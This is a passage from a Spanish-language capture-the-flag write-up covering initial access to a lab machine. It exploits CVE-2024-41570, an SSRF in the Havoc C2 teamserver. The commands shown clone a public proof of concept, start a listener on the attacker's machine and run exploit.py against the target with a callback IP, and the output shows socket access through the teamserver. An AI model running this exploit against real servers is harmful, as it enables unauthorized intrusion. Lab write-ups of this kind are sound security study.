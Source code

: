 ```bash
        ]
        HostBind = "127.0.0.1" 
        PortBind = 8443
        PortConn = 8443
        HostRotation = "round-robin"
        Secure = true
    }
}
```

## Initial Access

### Exploitation SSRF HavocC2 - (CVE-2024-41570)

Durante la fase de investigación, identificamos una vulnerabilidad en HavocC2 relacionada con un **SSRF (Server Side Request Forgery)**, documentada en el `CVE-2024-41570`. Para explorarla, utilizamos el siguiente repositorio público que contiene una prueba de concepto (PoC):

{% embed url="https://github.com/chebuya/Havoc-C2-SSRF-poc" %}

Según el blog del creador de la PoC, la vulnerabilidad permite explotar una solicitud maliciosa para interactuar con recursos internos del servidor, lo que potencialmente puede revelar información sensible, como direcciones IP internas o servicios en ejecución.

{% embed url="https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/" %}

En este caso, nos clonamos el proyecto en nuestro equipo local.

```bash
❯ git clone https://github.com/chebuya/Havoc-C2-SSRF-poc; cd Havoc-C2-SSRF-poc
Clonando en 'Havoc-C2-SSRF-poc'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (35/35), done.
remote: Total 39 (delta 10), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (39/39), 14.83 KiB | 460.00 KiB/s, listo.
Resolviendo deltas: 100% (10/10), listo.
```

Levantamos un servidor HTTP local para recibir las solicitudes provenientes de la explotación del SSRF.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Utilizamos el script `exploit.py` de la PoC para interactuar con el equipo objetivo y tratar de descubrir información interna.

```bash
❯ python3 exploit.py -t https://10.10.11.49 -i 10.10.16.5 -p 80
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
HTTP/1.0 404 File not found
Server: SimpleHTTP/0.6 Python/3.12.8
Date: Tue, 21 Jan 2025 08:43:01 GMT
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 335

<!DOCTYPE HTML>
```